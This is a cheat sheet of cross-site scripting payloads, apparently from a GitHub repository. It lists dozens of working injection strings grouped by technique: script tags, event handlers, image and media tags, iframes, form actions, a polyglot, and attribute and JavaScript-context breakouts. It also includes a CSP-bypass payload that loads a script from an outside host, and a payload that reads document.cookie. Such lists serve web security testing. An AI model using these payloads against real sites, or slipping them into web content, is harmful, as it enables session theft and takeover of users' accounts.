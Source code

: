 # Unique XSS Payloads and Techniques

### Script Injection
- `<script>alert(1)</script>`
- `<script src=javascript:alert(1)>`

### Event Handlers
- `onmouseover=alert(1)`
- `<body/onfocus=alert(1)>`
- `<marquee onstart=alert(1)>`
- `<x onclick=alert(1)>click this!`
- `<x onmousedown=alert(1)>click this!`
- `<brute onclick=alert(1)>click this!`

### Image and Media Tags
- `"'><img src="javascript:alert(1)">`
- `<img/src=1 onerror=window.alert(1)>`
- `<audio src=1 onloadstart=alert(1)>`
- `<video onloadstart=alert(1)><source>`

### Dynamic Elements
- `<svg/onload=alert(1)>`
- `<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(1)">`
- `<iframe src=javascript:alert(1)>`
- `<IFRAME SRC=# onmouseover="alert(1)"></IFRAME>`

### Forms and Links
- `<form><button formaction=javascript:alert(1)>click`
- `<IMG SRC="javascript:alert(1);">`
- `<acronym onmousedown="alert(1)">test</acronym>`

- `<img src="/" onerror='prompt(1)'>`
- `<svg/onload=eval(location.hash.substr(1))>#alert(1)`
- `<details/open/ontoggle=confirm('XSS')>`

## CSP Bypass
- `<script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>`

## Polyglot Payloads
- `javascript:"/*'/*\`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*<svg*/onload=alert()//`

## Inline HTML Injection
- `" onclick=alert(1)//">click`
- `" autofocus onfocus=alert(1) "`

## JavaScript Injection
- `'?prompt\`1\`?'`
- `"})},alert(1));(function xss() {//`
- `"-alert(1)-"`

## Hyperlink Tag Injection
- `javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")`
- `/x:1/:///%01javascript:alert(document.cookie)/`

